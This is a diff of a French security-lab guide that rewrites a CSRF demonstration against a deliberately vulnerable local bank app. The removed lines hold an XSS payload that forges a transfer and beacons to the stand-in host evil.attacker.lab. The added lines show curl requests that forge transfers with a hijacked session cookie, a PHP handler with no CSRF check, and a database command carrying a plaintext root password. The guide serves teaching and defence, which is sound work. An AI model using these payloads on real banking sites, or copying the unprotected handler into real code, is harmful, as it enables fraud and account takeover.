

Before and after one commit to RedaMohssine/cyber, a Markdown page: docs/GUIDE-COMPLET.md, the part around one of its changes. Shown at 93% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Fix CSRF demo: replace XSS-based demo with proper curl cross-origin demo

````diff
--- a/docs/GUIDE-COMPLET.md
+++ b/docs/GUIDE-COMPLET.md
@@ -853,40 +871,78 @@ En cas de fuite DB, les mots de passe en clair sont exploitables immédiatement.
 
 ---
 
-## DEMO 7 — CSRF via XSS (virement invisible)
+## DEMO 7 — CSRF (Cross-Site Request Forgery)
 
-> Cette démo chaîne XSS + CSRF. Elle montre comment un XSS permet de contourner la politique SameSite.
+> **Faille démontrée** : absence de token CSRF dans `transfer.php` — le serveur accepte n'importe quelle requête POST avec un cookie valide, sans vérifier d'où elle vient.
+>
+> **Différence avec XSS** : ici la requête vient d'un **outil externe** (curl), pas d'un script injecté dans la page. On prouve que le serveur ne vérifie pas l'origine de la requête.
 
-Préalable : remettre le solde d'Alice à 12 450 € :
+---
+
+### Ce qu'est vraiment le CSRF
+
+La faille CSRF c'est que `transfer.php` n'a **aucun token de vérification**. N'importe quelle requête POST avec un cookie valide est exécutée, qu'elle vienne du navigateur d'Alice, d'un script, ou d'un outil tiers.
+
+```php
+// ❌ transfer.php — aucune vérification d'origine
+if ($_SERVER['REQUEST_METHOD'] === 'POST') {
+    $to     = $_POST['to_iban'];
+    $amount = $_POST['amount'];
+    // → virement exécuté sans vérifier si la requête vient bien du site
+}
+```
+
+---
+
+### Étape 1 — Alice est connectée, récupérer son SID
+
+Alice est connectée avec `ATTACKERfixedSID001` (depuis la Demo 1A ou 1B). Le SID est visible sur le dashboard.
+
+---
+
+### Étape 2 — Mallory exécute un virement depuis son terminal
+
+Mallory n'est pas dans le navigateur d'Alice. Il utilise curl pour envoyer une requête cross-origin avec le cookie volé :
+
+```powershell
+curl -s -X POST "http://vuln.bank.local:8080/transfer.php" `
+  -H "Host: vuln.bank.local" `
+  -H "Cookie: PHPSESSID=ATTACKERfixedSID001" `
+  -d "to_iban=FR7630001007940000000000042&amount=500&note=CSRF demo"
+```
+
+Le serveur exécute le virement — il ne vérifie pas que la requête vient du bon endroit.
+
+---
+
+### Étape 3 — Vérifier le virement en DB
+
+```powershell
+docker exec p03-mysql mysql -uroot -prootpass -e "SELECT balance FROM bank_vuln.accounts WHERE user_id=1;"
+```
+
+Le solde d'Alice a diminué de 500 € sans qu'elle ait rien fait.
+
+---
+
+### Étape 4 — L'app sécurisée rejette la requête
+
+```powershell
+curl -s -X POST "http://secure.bank.local:8080/transfer.php" `
+  -H "Host: secure.bank.local" `
+  -H "Cookie: PHPSESSID=ATTACKERfixedSID001" `
+  -d "to_iban=FR7630001007940000000000042&amount=500&note=CSRF demo"
+```
+
+La requête est rejetée — le token CSRF manque dans le POST, le serveur refuse.
+
+---
+
+### Réinitialiser le solde après la démo
+
 ```powershell
 docker exec p03-mysql mysql -uroot -prootpass -e "UPDATE bank_vuln.accounts SET balance=12450.00 WHERE user_id=1;"
 ```
-
-Connecté en tant que **Mallory** :
-
-1. Va sur `http://vuln.bank.local:8080/comments.php`
-2. Poste ce commentaire :
-
-```html
-<script>
-var f = new FormData();
-f.append('to_iban', 'FR7630001007940000000000042');
-f.append('amount', '999');
-f.append('note', 'Transfert automatique');
-fetch('/transfer.php', {method:'POST', credentials:'include', body:f})
-  .then(function(){
-    new Image().src='http://evil.attacker.lab:8080/collect.php?m=csrf-done&sid=done';
-  });
-</script>
-```
-
-3. Déconnecte Mallory
-4. Connecte-toi en tant qu'**Alice**
-5. Va sur `http://vuln.bank.local:8080/comments.php`
-
-Le script s'exécute **silencieusement** — aucune popup, aucune redirection. Va sur le dashboard : **999 € ont été virés** sans qu'Alice ne clique sur rien.
-
-Sur l'app sécurisée, la même tentative échoue car le token CSRF manque dans le payload.
 
 ---
 
````
Also changed, not shown: other parts of docs/GUIDE-COMPLET.md (+20 -2 lines).
